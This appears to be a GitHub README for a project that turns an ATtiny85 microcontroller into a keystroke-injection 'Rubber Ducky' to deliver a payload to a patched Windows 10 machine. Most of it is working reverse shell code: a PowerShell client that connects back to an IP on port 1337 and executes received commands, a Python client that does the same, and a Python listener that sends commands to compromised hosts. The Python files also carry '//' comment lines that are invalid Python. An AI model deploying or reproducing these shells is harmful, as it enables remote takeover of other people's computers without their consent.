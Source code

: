 # ATtiny85 "Rubber Ducky"
## Creating a rubber ducky from an inexpensive programmable microcontroller to deploy a payload on a patched windows 10 system.

View and Download the [Guide](ATtiny85-Rubber-Ducky-Guide.pdf).

## Reverse Shell Scripts
1. PowerShell (Client): [powershell-client.ps1](01-Shell-Scripts/PowerShell/powershell-client.ps1)

```powershell
// Code written by: Nikhil Mittal, availible @ http://www.labofapenetrationtester.com/2015/05/week-of-powershell-shells-day-1.html

$sm=(New-Object Net.Sockets.TCPClient("192.168.171.129",1337)).GetStream()

[byte[]]$bt=0..255|%{0}

while(($i=$sm.Read($bt,0,$bt.Length)) -ne 0)
    {
        $d=(New-Object Text.ASCIIEncoding).GetString($bt,0,$i)
        $st=([text.encoding]::ASCII).GetBytes((iex $d 2>&1))
        $sm.Write($st,0,$st.Length)
}
```

2. Python (Client): [python-client.py](01-Shell-Scripts/Python/python-client.py)

```python
// Code written by: Abdou Rockikz, availible @ https://www.thepythoncode.com/article/create-reverse-shell-python

import socket
import os
import subprocess
import sys

SERVER_HOST = "192.168.171.129"
SERVER_PORT = 1337
BUFFER_SIZE = 1024 * 128

SEPARATOR = "<sep>"

s = socket.socket()
s.connect((SERVER_HOST, SERVER_PORT))
cwd = os.getcwd()
s.send(cwd.encode())

while True:
    command = s.recv(BUFFER_SIZE).decode()
    splited_command = command.split()
    if command.lower() == "exit":
        break
    if splited_command[0].lower() == "cd":
        try:
            os.chdir(' '.join(splited_command[1:]))
        except FileNotFoundError as e:
            output = str(e)
        else:
            output = ""
    else:
        output = subprocess.getoutput(command)
    cwd = os.getcwd()
    message = f"{output}{SEPARATOR}{cwd}"
    s.send(message.encode())
s.close()
```

2. Python (Server): [python-server.py](01-Shell-Scripts/Python/python-server.py)

```python
#!/usr/bin/env python3
// Code written by: Abdou Rockikz, availible @ https://www.thepythoncode.com/article/create-reverse-shell-python

import socket

SERVER_HOST = "0.0.0.0"
SERVER_PORT = 1337
BUFFER_SIZE = 1024 * 128 # 128KB max size of messages, feel free to increase
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>"
# create a socket object
s = socket.socket()

# bind the socket to all IP addresses of this host
s.bind((SERVER_HOST, SERVER_PORT))

s.listen(5)
print(f"[+] Listening on PORT:{SERVER_PORT} ...")

# accept any connections attempted
client_socket, client_address = s.accept()
print(f"[+] {client_address[0]}:{client_address[1]} Connected!")

# receiving the current working directory of the client
cwd = client_socket.recv(BUFFER_SIZE).decode()
print("[+] Current working directory:", cwd)

while True:
    # get the command from prompt
    command = input(f"{cwd}> ")
    if not command.strip():
        # empty command
        continue
    # send the command to the client
    client_socket.send(command.encode())
    if command.lower() == "exit":
        # if the command is exit, just break out of the loop
        break
    # retrieve command results
    output = client_socket.recv(BUFFER_SIZE).decode()
    # split command output and current directory
    results, cwd = output.split(SEPARATOR)
    # print output
    print(results)
    ```
